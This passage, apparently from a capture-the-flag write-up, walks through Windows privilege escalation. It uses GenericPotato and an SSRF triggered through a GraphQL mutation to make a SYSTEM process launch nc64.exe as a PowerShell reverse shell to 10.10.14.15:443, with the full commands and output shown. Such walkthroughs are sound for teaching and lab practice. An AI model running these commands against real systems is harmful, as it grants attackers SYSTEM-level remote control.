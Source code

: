 
Both file are there:

    
    
    PS C:\programdata> ls
    
    
        Directory: C:\programdata
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d---s-        9/15/2018  12:21 AM                Microsoft
    d-----       11/18/2020  10:11 AM                Package Cache
    d-----       11/11/2020  11:50 AM                regid.1991-06.com.microsoft
    d-----        9/15/2018  12:12 AM                SoftwareDistribution
    d-----        3/16/2021   4:38 AM                ssh
    d-----       11/11/2020  11:53 AM                USOPrivate
    d-----       11/11/2020  11:53 AM                USOShared
    d-----       11/11/2020  11:48 AM                VMware
    -a----        5/25/2021   5:48 PM         683520 GenericPotato.exe
    -a----        5/25/2021   5:52 PM          45272 nc64.exe
    

#### Run

Now it’s just a matter of running GenericPotato and triggering the SSRF. It’s
important to note that the args are slightly different than RoguePotato, in
that they take a `-p` for the process to run, and `-a` for an argument string
for that process.

    
    
    PS C:\programdata> .\GenericPotato.exe -p "C:\programdata\nc64.exe" -a "10.10.14.15 443 -e powershell" -e HTTP
    GenericPotato by @micahvandeusen
      Modified from SweetPotato by @_EthicalChaos_
    
    [+] Starting HTTP listener on port http://127.0.0.1:8888
    [+] Listener ready
    

It’s now listening for HTTP on port 8888 (I could change that with `-l`).

I’ll trigger the SSRF, which will get the SYSTEM process to connect to it:

    
    
    oxdf@parrot$ curl -d '{ "query": "mutation{updatePlant(plantId:1, version: 223.0, sourceURL: \"http://localhost:8888\")}" }' -X POST http://127.0.0.1:8888/api/graphql -H 'Content-Type: application/json' -s | jq -c .
    {"data":{"updatePlant":false}}
    

It returned false, but back at GenericPotato:

    
    
    [+] Starting HTTP listener on port http://127.0.0.1:8888
    [+] Listener ready
    Request for: /
    Client: NT AUTHORITY\SYSTEM
    [+] Duplicated impersonation token ready for process creation
    [+] Intercepted and authenticated successfully, launching C:\programdata\nc64.exe
    [+] Running "C:\programdata\nc64.exe" 10.10.14.15 443 -e powershell
    [+] Process created, enjoy!
    